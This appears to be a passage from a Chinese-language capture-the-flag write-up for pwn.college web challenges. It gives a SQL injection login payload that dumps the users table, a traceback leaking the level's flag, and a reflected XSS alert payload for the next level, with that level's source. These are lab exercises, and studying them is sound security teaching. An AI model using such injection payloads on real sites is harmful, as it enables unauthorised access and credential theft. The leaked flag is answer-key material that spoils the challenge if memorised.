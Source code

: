 利用代码：
```python
login_data = {
    'username': 'w',
    'password': " \" AND '1'='0'UNION SELECT (SELECT username || ' - ' || password FROM users WHERE username='flag'),* FROM users WHER username='flag' --"
}
response = requests.post('http://challenge.localhost:80/', data=login_data)
print(response.text)

Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 880, in full_dispatch_request
    rv = self.dispatch_request()
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 865, in dispatch_request
    return self.ensure_sync(self.view_functions[rule.endpoint])(**view_args)  # type: ignore[no-any-return]
  File "/challenge/run", line 671, in catch_all
    return challenge()
  File "/challenge/run", line 177, in level7
    session["user"] = int(user["rowid"])
ValueError: invalid literal for int() with base 10: 'flag - pwn.college{wTBGaZe76xiwOq7ylUDY0k3qlPK.dNTOzMDL0czNxEzW}'
```


## level8

我们需要对url传入一个地址，让其能弹出alter窗口。地址可以设定为echo，然后利用html(echo)，将echo设定为`<script type='text/javascript'>alert('This is an alert');</script>`即可。

那为什么说是跨站脚本呢，意思大概是，我可以通过你提供的服务，访问一个我设定的有漏洞的网站。这样有可能泄露一些不应该暴露的逻辑。

源码：
```python
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```
